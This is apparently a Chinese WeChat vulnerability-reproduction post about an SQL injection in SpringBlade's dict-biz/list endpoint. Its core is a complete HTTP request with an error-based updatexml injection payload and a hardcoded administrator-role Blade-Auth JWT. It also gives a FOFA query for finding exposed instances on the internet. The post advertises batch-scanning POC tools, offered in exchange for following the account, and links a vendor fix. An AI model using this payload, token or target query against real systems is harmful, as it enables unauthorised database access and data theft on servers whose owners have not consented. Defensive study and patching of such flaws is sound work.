 #  SpringBlade dict-biz/list接口存在SQL注入漏洞   
南风徐来  南风漏洞复现文库   2024-04-19 23:19  
  
免责声明：  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。  
该文章仅供学习用途使用。  
## 1. SpringBlade简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
SpringBlade 是一个由商业级项目升级优化而来的微服务架构 采用Spring Boot 2.5 、Spring Cloud 2020 等核心技术构建，完全遵循阿里巴巴编码规范。  
## 2.漏洞描述  
  
SpringBlade 是一个由商业级项目升级优化而来的微服务架构 采用Spring Boot 2.7 、Spring Cloud 2021 等核心技术 构建，完全遵循阿里巴巴编码规范。提供基于React和Vue的两个前端框架用于快速搭建企业级的SaaS多租户微服务平台。SpringBlade list接口存在SQL注入漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
SpringBlade  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aTsJRrEsWevJ33FzOEpe5H9micUvdCic9Apoib2pMlx5A570O6BwVsCgI2ARiacyOMJSiauxTGAfiaM8zg/640?wx_fmt=jpeg&from=appmsg "null")  
  
SpringBlade list接口存在SQL注入漏洞  
## 4.fofa查询语句  
  
body="https://bladex.vip"||body="Saber 将不能正常工作"  
## 5.漏洞复现  
  
漏洞链接：https://127.0.0.1/api/blade-system/dict-biz/list?updatexml(1,concat(0x7e,md5(1),0x7e),1)=1  
  
漏洞数据包：  
```
GET /api/blade-system/dict-biz/list?updatexml(1,concat(0x7e,md5(1),0x7e),1)=1 HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: 127.0.0.1
Blade-Auth: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJpc3MiOiJpc3N1c2VyIiwiYXVkIjoiYXVkaWVuY2UiLCJ0ZW5hbnRfaWQiOiIwMDAwMDAiLCJyb2xlX25hbWUiOiJhZG1pbmlzdHJhdG9yIiwidXNlcl9pZCI6IjExMjM1OTg4MjE3Mzg2NzUyMDEiLCJyb2xlX2lkIjoiMTEyMzU5ODgxNjczODY3NTIwMSIsInVzZXJfbmFtZSI6ImFkbWluIiwib2F1dGhfaWQiOiIiLCJ0b2tlbl90eXBlIjoiYWNjZXNzX3Rva2VuIiwiZGVwdF9pZCI6IjExMjM1OTg4MTM3Mzg2NzUyMDEiLCJhY2NvdW50IjoiYWRtaW4iLCJjbGllbnRfaWQiOiJzd29yZCIsImV4cCI6MTc5MTU3MzkyMiwibmJmIjoxNjkxNTcwMzIyfQ.wxB9etQp2DUL5d3-VkChwDCV3Kp-qxjvhIF_aD_beF_KLwUHV7ROuQeroayRCPWgOcmjsOVq6FWdvvyhlz9j7A
Accept-Language: zh-CN,zh;q=0.9
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aTsJRrEsWevJ33FzOEpe5HJldgglN91l2bX1ruXSQj5ZjMuTu4aZDIOT8n48ya2PvreHPGVgUkrQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aTsJRrEsWevJ33FzOEpe5HZ7oYiaAmPnrdyfbR3IbFckcI2KVRBSZbzvPENreFbnZrSA0MtgzjoEA/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
关注公众号 南风漏洞复现文库 并回复 漏洞复现126 即可获得该POC工具下载地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aTsJRrEsWevJ33FzOEpe5Hmv19yEKXibja1SMib99JNJWEuKBfFiaWNTh1T3FXrQoW6ycmekAMYy4Yw/640?wx_fmt=jpeg&from=appmsg "null")  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aTsJRrEsWevJ33FzOEpe5HCavndDvfAWY9YIfOhxHctxmyuibLIAmgpK4yUq4L4R2cSUfz7gvWIibg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aTsJRrEsWevJ33FzOEpe5H52MwI9fIFDcCKXhAcibG39Q7za4x3K5H7LQ7iaEQGgEhrWkaDY1QCuSw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aTsJRrEsWevJ33FzOEpe5HmHUhvuMt1zibhqiaUeBKM3RCNj75TMncKcJYFBDhZiac9jj6nQyhrFy7A/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aTsJRrEsWevJ33FzOEpe5HliaudnrpGIOgBKoCeU80MyB6M1ib2KZpM2iaztiaHHybgQvbG9a94tlVMg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aTsJRrEsWevJ33FzOEpe5HTGVINIQ7BibgcS1C297DSDKhQQhj3rB0bWZsuZe4vtoCxzF1N7DM1oA/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
⼚商已发布了漏洞修复程序 请及时关注更新：https://github.com/chillzhuang/blade-tool  
## 8.往期回顾  
  
[用友NC Cloud doPost接口存在任意文件上传漏洞2](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486235&idx=1&sn=797e70d49305df0d175e890a846fa980&chksm=974b861ca03c0f0a18fafe8c60be12bd3e94f2e20627a6bf41b0781c159183934cdb80b2f0ef&scene=21#wechat_redirect)  
  
  
[泛微e-office系统ajax.php接口存在任意文件上传漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486198&idx=1&sn=971121723b24414642a6efd672c22ecc&chksm=974b87f1a03c0ee7675fb34a06913c10ca977fd6f9a1158a1bd19af1641fe16ffb2d6ec86e65&scene=21#wechat_redirect)  
  
  
  
  
